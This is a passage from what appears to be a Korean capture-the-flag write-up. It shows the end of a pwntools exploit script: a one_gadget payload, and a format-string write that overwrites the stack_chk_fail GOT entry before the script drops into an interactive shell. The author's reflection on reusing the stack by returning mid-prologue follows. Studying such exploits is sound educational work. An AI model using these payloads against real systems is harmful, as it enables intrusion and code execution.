 ```python

one_gadget=libc_base+0x45216
payload5 = p64(one_gadget)
payload5 += "A"*(0x19-len(payload5))
pause()
p.send(payload5)


payload6 = "%4196394c%8$ln"+"AA"
payload6 += p64(stack_chk_got)
payload6 += "A"*(0x19-len(payload6))
pause()
p.send(payload6)


p.interactive()

```
<br><br><br>

### 4. 몰랐던 개념

---

문제를 해결하기 위해 알아야하는 새로운 지식을 없었지만, 스택을 재사용하기 위해 프롤로그 중반으로 ret시키는 방법이 참신했던 문제이다.

비록 롸업을 보면서 해결하긴 했지만, 다 이해하면서 진행했기때문에 나름 보람찼다.